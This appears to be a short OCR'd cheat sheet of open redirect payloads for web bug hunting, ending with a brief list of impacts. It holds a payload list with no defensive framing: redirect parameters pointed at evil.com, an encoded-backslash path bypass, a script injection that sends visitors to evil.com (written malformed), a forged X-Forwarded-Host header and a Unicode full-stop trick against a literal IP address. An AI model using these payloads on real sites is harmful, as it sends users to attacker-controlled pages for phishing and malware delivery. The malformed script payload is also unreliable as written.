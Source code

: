 # open redirect


1 - payload: {evil.com} 


===>>> example: site.com/.../redirect_uri=evil.com/...

===>>> example: site.com/.../next_url=evil.com/...

===>>> example: ===>>> example: site.com/.../returnurl=http://evil.com

2 - payload: {///%5Cevil.com/} 


===>>> example: site.com///%5Cevil.com/ 

3 - payload:  </script>window.location"http://evil.com"</script>


===>>> example: search box : injection

4 - payload: {bing.com}


===>>> example: ===>>> url ===>>> X-forwarded-host: bing.com

5 - payload: {%E3%80%82}


===>>> example: ===>>> https://20.44.36.49//google%E3%80%82com





==================================================================


## impact:
- an attacker can do phishing with legitimate users
-  they can also chain this with SSRF
-  reputation loss, money loss
-  malware distribution
  
